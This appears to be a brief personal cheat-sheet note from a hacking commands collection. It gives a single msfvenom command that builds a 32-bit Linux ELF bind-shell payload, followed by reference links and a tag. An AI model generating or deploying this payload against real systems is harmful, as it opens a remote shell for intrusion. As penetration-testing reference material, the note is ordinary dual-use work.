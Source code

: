 # MSFVENOM Linux Binary (.elf) 32 Bit (x86) Bind Shell
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=$LHOST -f elf > bind_shell.elf
```

# References
- [20221003150765](/zet/20221003150765/) MSFVENOM Linux Binary (.elf) 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted

